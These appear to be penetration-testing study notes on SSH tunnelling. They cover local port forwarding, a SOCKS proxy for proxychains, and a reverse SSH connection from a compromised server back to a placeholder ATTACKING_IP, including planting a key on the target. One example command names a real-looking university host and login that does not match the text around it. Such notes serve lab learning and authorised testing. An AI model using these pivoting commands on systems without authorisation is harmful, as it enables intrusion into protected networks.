 # SSH Tunnelling / Port Forwarding

### Forward Connections

Creating a **forward** (or "_local_") **SSH tunnel** can be done from the attacking box when we have SSH access to the target.

#### `Port Forwarding :` -L switch, which creates a link to a Local port.

* For example, if we had SSH access to 172.16.0.5 and there's a webserver running on 172.16.0.10, we could use this command to create a link to the server on 172.16.0.10:

```bash
ssh -L 8000:132.227.89.21:80 21108020@ssh.ufr-info-p6.jussieu.fr -fN

-f backgrounds the shell
-N tells SSH that it doesn't need to execute any commands,only set up the fucking connection
```

You can now access the website on 172.16.0.10 (through 172.16.0.5) by navigating to port 8000 on our own attacking machine with `localhost:8000`.

```
Good Practice use a high port, out of the way, for the local connection.
```

#### `Creating a proxy :` -D switch

* For example: -D 1337. This will open up port 1337 on the attacking box as a **proxy** to send data through into the _protected network_.

This is useful when combined with a tool such as **proxychains**. An example of this command would be:

```bash
ssh -D 1337 user@172.16.0.5 -fN
```



### Reverse Connections

_Reverse connections_ are very possible with the **SSH client** (and indeed may be preferable if you have **a shell** on the **compromised server**, but not **SSH access**).

**They are, however, riskier** as you inherently must access **your attacking machine from the target** -- be it by using credentials, or preferably a key based system.

`Before we can make a reverse connection safely, there are a few steps to take:`

```
# 1. generate a new set of SSH keys and store them somewhere safe
ssh-keygen

# 2. Copy the contents of the public key, then edit the ~/.ssh/authorized_keys file on your own attacking machine.

# 3. New line, type the following line, then paste in the public key:
command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty ssh-public-key

# 4. start the ssh service your the attacking machine
sudo systemctl start ssh

# 5. transfer the private key to the target server

# 6. With the key transferred, connect back with a reverse port forward (on the target server)
ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -fN

or (In newer versions of the SSH client)
ssh -R 1337 USERNAME@ATTACKING_IP -i KEYFILE -fN
```

```bash
ssh -p port -okexAlgorithms=+<algo> user@0.0.0.0

ssh -o StrictHostKeyChecking=no -p 0.0.0.0

ssh -i id_rsa -L localport:127.0.0.1:remoteport user@0.0.0.0

#to get public key from a private key
ssh-keygen -y -e -f keyfile
```
